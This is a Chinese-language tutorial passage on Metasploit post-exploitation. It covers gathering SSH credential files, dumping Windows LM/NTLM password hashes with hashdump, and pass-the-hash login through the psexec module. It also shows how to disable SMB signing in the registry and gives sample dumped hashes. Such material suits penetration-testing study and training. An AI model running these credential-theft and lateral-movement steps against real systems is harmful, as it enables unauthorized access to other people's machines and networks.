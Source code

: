 ### SSH 获取密钥

获取了Shell之后，我们可以使用`ssh_creds`获取文件系统中的ssh相关文件：
```
use post/multi/gather/ssh_creds
set session <id>
run
loot
```

### 哈希获取 ❖

Windows系统存储哈希的方式有 LAN Manager(LM) / NT LAN Manager(NTLM) / NT LAN Manager v2(NTLMv2)。LM存储会将密码切分为7个字符的块进行哈希（很容易破解），NTLM则是整段哈希。

```
Administrator:500:LMHASH:NTLMHASH::

if length > 14:
Administrator:500:aad3b4...:NTLMHASH
aad3b4开头的哈希是空值占位符，因为长度太长所以使用NTLM存储
```

```
use priv
run post/windows/gather/hashdump
```

### PSEXEC 哈希传递 ❖

`psexec` 模块用于已知某个用户密码哈希，但是又无法在可能时间内破解明文的情况下登录系统。

一般来说进入系统后，就是使用**fgdump**, **pwdump** 或者 **cachedump** 等模块/工具来获取密码哈希，然后使用彩虹表等工具破解哈希获取密码

也有像 **iam.exe** 这样的工具可以让你自己输入密码/哈希，无需破解即可获取访问。而`psexec`就可以让我们只使用哈希即可登录系统，如果此系统的管理员帐号都是相同的，我们就可以畅游目标内网。

注意如果NTLM是唯一一个登录服务（比如说密码哈希有15+字符长或者组策略中只允许NTLM响应），可以将 `****NOPASSWORD****` 替换成32个0：

```
******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c

00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c
```

若遇到：
```
STATUS_ACCESS_DENIED (Command=117 WordCount=0)
```
可以通过修改注册表：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters` 中的 `RequireSecuritySignature` 为 `0` 

#### 过程

获取到shell之后：
```
meterpreter > run post/windows/gather/hashdump

...snip...
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
```
